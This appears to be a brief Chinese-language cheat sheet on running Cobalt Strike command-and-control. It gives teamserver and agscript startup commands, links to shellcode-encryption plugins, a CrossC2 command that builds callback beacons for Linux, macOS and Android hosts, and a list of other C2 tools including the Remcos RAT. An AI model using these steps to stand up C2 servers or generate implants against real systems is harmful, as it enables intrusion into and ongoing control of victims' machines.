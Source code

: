 # Cobaltstrike

---

插件：

```
加密生成5he11code插件：https://github.com/RCStep/CSSG
cs插件:https://github.com/Al1ex/CSPlugins
```

相关资料：

```
https://github.com/zer0yu/Awesome-CobaltStrike
```

运行

```
nohup ./teamserver IP 密码 profile规则文件[可不加] &
```

环境安装

```
yum install java-1.8.0-openjdk* -y
java -version  # 查看版本
```

后台挂在脚本

```
nohup ./agscript [host] [port] [username] [password] CrossC2.cna &
```

linux、mac、安卓等系统上线

```
依赖
CrossC2：https://github.com/gloxec/CrossC2/releases/tag/v2.2

./genCrossC2.linux IP 端口 Cobaltstrike.beacon_keys null Linux x64 ./test
```

后台运行程序

```
screen -ls  # 查看所有会话
screen -S david   # 创建一个名字窗口
screen -r  PID # 进入该会话
ctrl a d  # 后台运行会话并退出窗口
screen -S PID -X quit
```

其他c2工具

```
https://github.com/its-a-feature/Mythic     # windows、linux、macos等，不支持32位系统
https://breakingsecurity.net/remcos/        # 纯windows，功能强大，付费
https://www.worldwiredlabs.com/             # windows、linux、macos等 ，付费
```


